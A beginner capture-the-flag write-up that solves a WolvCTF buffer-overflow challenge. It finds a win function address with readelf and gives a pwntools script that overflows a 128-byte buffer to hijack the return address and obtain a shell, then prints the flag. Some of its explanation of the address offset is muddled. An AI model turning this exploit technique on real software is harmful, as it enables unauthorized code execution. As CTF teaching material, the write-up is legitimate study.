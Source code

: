 ![](Pasted%20image%2020230318042000.png)
*Beginner level*

1.  Execute `readelf -s ./challenge` this will show you the pointer address of the executable
![](Pasted%20image%2020230318042859.png)
2. The `win` function address is `4011b6` add to that ascii value of the size of the `win` function which is `35` so the ptr will become `4011bb`
3. Now, from the source code you know the buffer is accepting `128` bytes, and from executing `file ./challenge` we know it's a 64-bit LSB file
4. ![](Pasted%20image%2020230318044809.png)
5. So to do the buffer overflow we need the following equation `buffer-size + base ptr size + destitnation ptr` == `128 + 8 (64-bit) + 4011bb` this way we will get buffer overflow
6. For that we write a simple python code
7. ![](Pasted%20image%2020230318045043.png)
8. 
```py
from pwn import *

conn = remote('cat.wolvctf.io', 1337)
conn.recvline()
conn.sendline(b'A' * 128 + b'B' * 8 + p64(0x4011bb))
conn.interactive() # important to actually get the shell
```
9. Notice we're using `pwn.p64(0x4011bb)` this is important to convert the hex value to the `endian` representation so it can mean something to the program stack
10. From that we get the shell!
11. ![](Pasted%20image%2020230318045404.png)
12. **FLAG:** `wctf{d0n+_r0ll_y0ur_0wn_c_:3}`